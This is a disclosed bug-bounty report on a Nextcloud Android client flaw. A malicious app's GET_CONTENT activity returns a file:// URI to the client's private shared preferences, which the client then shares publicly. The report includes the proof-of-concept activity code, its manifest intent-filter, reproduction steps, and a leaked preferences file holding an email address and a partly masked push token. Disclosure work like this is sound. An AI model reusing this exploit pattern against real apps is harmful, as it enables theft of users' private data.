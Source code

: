 # Leak arbitrary file under nextcloud android client privacy directory

## Report Details
- **Report ID**: 1142918
- **URL**: https://hackerone.com/reports/1142918
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-31T08:24:06.359Z
- **Disclosed**: 2021-07-17T10:32:36.300Z

## Reporter
- **Username**: wester0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Steps to reproduce:

1.install and login nextcloud android client 
2.create a directory and set it 'shareable'
3.install the poc app "setresultcontactphotocrop"

key code:

`EvilActivity`
```
public class EvilActivity extends AppCompatActivity {
    final static String PRIVATE_URI = "file:///data/data/com.nextcloud.client/shared_prefs/com.nextcloud.client_preferences.xml";

    @Override
    protected void onCreate(@Nullable Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Log.d("heen", "EvilActivity started!");
        setResult(-1, new Intent().setData(Uri.parse(PRIVATE_URI)));
        finish();
    }
}
```
`manifest.xml->intent-filter`
```
  <activity android:name=".EvilActivity" >
            <intent-filter>
                <action android:name="android.intent.action.GET_CONTENT"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.OPENABLE"/>
                <data android:mimeType="*/*"/>
            </intent-filter>
        </activity>
```

4.Take into the shareable diretory in the step2, and click '+', choose "upload content from other apps"

5.if the victim click the poc app by accident, the secret file "/data/data/com.nextcloud.client/shared_prefs/com.nextcloud.client_preferences.xml" will be publicly shared and leaked.


com.nextcloud.client_preferences.xml content
```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <boolean name="keysMigration" value="true" />
    <string name="select_oc_account">yunbeitai2015@126.com@efss.qloud.my</string>
    <boolean name="autoUploadPathUpdate" value="true" />
    <boolean name="autoUploadInit" value="true" />
    <float name="grid_columns" value="3.0" />
    <string name="storage_path">/storage/emulated/0/Android/media/com.nextcloud.client</string>
    <boolean name="legacyClean" value="true" />
    <boolean name="storagePathFix" value="true" />
    <boolean name="autoUploadEntriesSplitOut" value="true" />
    <int name="lastSeenVersionCode" value="30150190" />
    <boolean name="keysReinit" value="true" />
    <string name="pushToken">dsqXrhNrS0aKvlblvQirA5:APA91bFsXrXQAy****StWaRswHJJG39zx5rAMX_yrjsSQD23fJnFNkro9hxwSZmwbufEn_M0IEPhGwGgMJ29WCfNmGlem6teT6qXHZQW3GY57tk9CbVmjb5kiSjHBqF6OUTI6b0WAzQI</string>
</map>
```

## Impact

arbitrary sensitive file under nextcloud android client privacy directory /data/data/com.nextcloud.client leaked
{F1249064}

## Attachments
- poc_nextcloud.jpg
